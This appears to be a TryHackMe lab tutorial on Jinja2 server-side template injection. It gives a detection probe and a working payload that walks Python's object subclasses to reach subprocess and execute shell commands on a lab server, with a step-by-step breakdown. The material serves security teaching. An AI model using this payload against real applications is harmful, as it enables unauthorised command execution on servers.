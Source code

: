Jinja2 is a popular template engine for Python, renowned for its flexibility and performance. It is extensively used in web applications to render dynamic content, as it allows Python-like expressions to be embedded within HTML. While Jinja2 accelerates development and facilitates the separation of presentation from business logic, its powerful templating capabilities can also introduce significant security risks if not handled properly.

Since Jinja2 allows the execution of Python expressions within the templates, the security risk in Jinja2 often arises from insecure coding practices that allow user input to be executed within templates without proper sanitization. The vulnerability is not inherent in Jinja2 itself but rather in how developers handle user inputs in their templates. Properly sanitizing and validating all user inputs before incorporating them into templates is essential to prevent such security issues.

**Key Vulnerability Points:**

- **Expression Evaluation**: Jinja2 evaluates expressions within curly braces `{{ }}`, which can execute arbitrary Python code if crafted maliciously.
- **Template Inheritance and Imports**: Advanced features like template inheritance and macro imports can be misused to execute unintended code, leading to information disclosure or server manipulation.

### Exploitation

Before crafting a payload, it's crucial to confirm that the application indeed uses Jinja2. For example, go to [http://ssti.thm:8002/jinja2/](http://ssti.thm:8002/jinja2/).

Inject a basic Jinja2 syntax like `{{7*7}}` to check for template processing. If the application returns 49, it indicates that Jinja2 is processing the template.

![Output is 49 using the above payload](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/645b19f5d5848d004ab9c9e2-1716710076610)  

Once Jinja2's use is confirmed, we can the use the payload `{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}`

Below is the breakdown of the above payload:

- `"".__class__.__mro__[1]` accesses the base `object` class, the superclass of all Python classes.
- `__subclasses__()`: Lists all subclasses of `object`, and `[157]` is typically the index for the `subprocess.Popen` class (this index may vary and should be checked in the target environment).  
    ![Classes dump using the above payload](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/645b19f5d5848d004ab9c9e2-1716711942501)  
    
    ![second part of the screenshot above](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/645b19f5d5848d004ab9c9e2-1716711942974)

    
- The subsequent method chains dynamically import and use the `subprocess` module to execute the `ls` command, capturing its output.  
    ![directory contents using the ls command in the payload](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/645b19f5d5848d004ab9c9e2-1716710077098)  
    

### Why check_output('ls -lah') Does Not Work

When you use `check_output('ls -lah')`, you're passing the entire command and its arguments as a single string. This is not the recommended way to use `check_output` because it does not parse the string into a command and separate arguments. Instead, it treats the whole string as a single command to execute, which it cannot resolve as a valid executable and thus fails to run.
